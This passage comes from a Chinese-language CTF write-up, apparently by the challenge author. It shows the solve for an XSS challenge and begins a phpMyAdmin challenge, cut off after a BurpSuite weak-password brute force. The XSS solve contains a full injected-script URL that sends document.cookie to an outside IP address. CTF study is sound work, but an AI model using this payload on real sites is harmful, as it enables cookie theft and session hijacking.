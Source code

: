 #### 获取 flag

- 同第二题，都弹窗了，剩下的不用说了，打 flag：

```
http://120.78.185.175:5000/hachp1/pintu/index.php?name="><script>&ft_id=id"></form><Form+name%3Dname_links+id%3D"<script>document.location='http://120.78.185.175/xss/myxss?c='%2Bdocument.cookie;<%2Fscript>">
```

flag:
![](img/xss26.png)

## 出题人寄语

- 最后，祝贺在比赛中打出三道题的大佬 XD，也希望没有打出来的同学们能学到一些东西，这样这三题的使命就完成了。

## 艾迪魔力转圈圈

这道题别看 400 多分在 Web 题里分是最高的，其实这也算一道送分题，实际难度大概 150 分左右
到最后只有四五个队伍做出来，还是有些感慨

题目提示了用户名是 scuctf，密码没给，这种情况都是弱口令，直接 BurpSuite 爆破一下 123456 就出来了

进去看到 PhpMyAdmin，没有全局权限，那就不可以写文件之类的，右边看到 PhpMyAdmin 版本为 4.8.1

![version](img/php_0.png)
